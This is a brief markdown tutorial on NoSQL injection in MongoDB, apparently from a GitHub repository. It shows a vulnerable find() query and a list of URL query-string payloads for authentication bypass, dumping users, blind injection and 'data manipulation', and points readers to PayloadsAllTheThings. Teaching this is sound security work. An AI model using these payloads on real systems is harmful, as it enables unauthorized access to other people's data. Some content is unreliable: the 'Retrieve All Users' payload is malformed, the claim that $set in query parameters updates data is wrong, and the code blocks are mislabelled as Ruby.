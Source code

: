 **NoSQL Injection** occurs when an attacker manipulates NoSQL queries by injecting malicious input, leading to unauthorized access or data manipulation. Unlike SQL Injection, it targets NoSQL databases like MongoDB, which use flexible query structures.


---
## Cheat Sheets
It is very important to consult these resources available in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to correctly execute a [NoSQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) attack .


---


## Example of NoSQL Injection:

Consider the following query in MongoDB:
```ruby
db.users.find({ name: req.query.name })
```

An attacker could inject input like this:

```ruby
https://example.com?name[$ne]=admin
```

This translates to a query like:

```ruby
db.users.find({ name: { "$ne": "admin" } })
```

This would bypass the login check by returning all users except the one with the name "admin", potentially exposing sensitive data.


## Other NoSQL Injection Payloads

- **Bypass Authentication**  
This payload forces the query to return true, bypassing authentication.
```ruby
https://example.com?name[$ne]=null
```

- **Retrieve All Users**  
This payload retrieves all users by bypassing name checks.

```ruby
https://example.com?name[$or][0][$exists]=true&name[$or][1]=$ne
```

- **Blind Injection**  
This payload tests conditions to infer data without direct feedback.
```ruby
https://example.com?name[$gt]=a
```

- **Data Manipulation**  
This payload can be used to update or insert data into the database
```ruby
https://example.com?name[$set]=admin&password[$set]=password123
```